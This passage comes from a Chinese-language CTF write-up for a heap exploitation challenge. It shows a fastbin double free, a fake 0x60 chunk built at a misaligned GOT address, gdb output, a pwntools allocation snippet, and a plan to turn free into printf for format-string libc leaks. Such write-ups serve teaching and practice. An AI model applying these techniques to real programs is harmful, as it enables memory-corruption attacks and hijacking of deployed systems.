 此时fastbin  
`0x60: 0x16512e0 —▸ 0x1651220 ◂— 0x16512e0 `  
0x16512e0 在fastbin 中两次 

此时在got表中查找可以伪造的size  
`0000| 0x602000 --> 0x601e28 --> 0x1`  
错位构造出0x60
```
gdb-peda$ x/4gx 0x602000+2-8
0x601ffa:       0x1e28000000000000      0xf168000000000060
```

```python
tar = 0x602000+2-8
new(0x50,p64(tar))
new(0x50,"ccc")
new(0x50,"ddd")
```
明明size的位置是0xf168000000000060 , 为什么还可以当作0x60使用? 

![](https://raw.githubusercontent.com/pwnkk/pwnkk.github.io/master/_posts/IMG/HuXiang/fastbin.png)

r14=0x601ffa , 在size校验的时候用eax获取size,会忽略高位的0xf168

#### 2. 泄露地址

* 覆盖free的got表为printf_plt(注意不要影响到下面的puts_got)

* 确认栈中的libc函数位置
刚开始用`%8$x.%9$x.%10$x`填充到前17个堆块中后再free它们，来测试 printf泄露的位置，再从其中查找stack上的libc地址。64位下前6个参数取寄存器的值，而不是栈中的值，所以取8，9，10来定位位置。
输出结果是 5408ef20.400c24.5408f000
```
│0000| 0x7fff5408eef0 --> 0x400750 (xor    ebp,ebp)
│0008| 0x7fff5408eef8 --> 0x21bc2d00
│0016| 0x7fff5408ef00 --> 0x7fff5408ef20 --> 0x400c50 (push   r15)
│0024| 0x7fff5408ef08 --> 0x400c24 (jmp    0x400c44)
│0032| 0x7fff5408ef10 --> 0x7fff5408f000 --> 0x1
│0040| 0x7fff5408ef18 --> 0x300000000
│0048| 0x7fff5408ef20 --> 0x400c50 (push   r15)
│0056| 0x7fff5408ef28 --> 0x7ff02c5d8730 (<__libc_start_main+240>:       mov    edi,eax)
│0064| 0x7fff5408ef30 --> 0x1
```
